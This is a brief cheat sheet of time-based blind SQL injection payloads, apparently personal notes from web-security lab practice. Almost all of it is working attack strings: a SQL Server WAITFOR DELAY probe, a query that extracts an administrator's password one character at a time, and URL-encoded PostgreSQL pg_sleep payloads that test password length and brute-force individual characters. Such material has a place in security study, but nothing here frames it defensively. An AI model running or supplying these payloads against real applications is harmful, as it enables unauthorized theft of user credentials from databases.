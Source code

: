 [[postgresql]]
#sql

```sql
'; IF (1=1) WAITFOR DELAY '0:0:10'--
```


Testing one by one character
```sql
'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--
```


postgresql
```sql
DmPM58WZKAHfc8BB'%3BSELECT+CASE+WHEN+(username='administrator'+and+length(password)>1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+from+users--
```
brut force ony by one char:
```sql
DmPM58WZKAHfc8BB'%3BSELECT+CASE+WHEN+(username='administrator'+and+substring(password,5,1)='a')+THEN+pg_sleep(2)+ELSE+pg_sleep(0)+END+from+users--
```

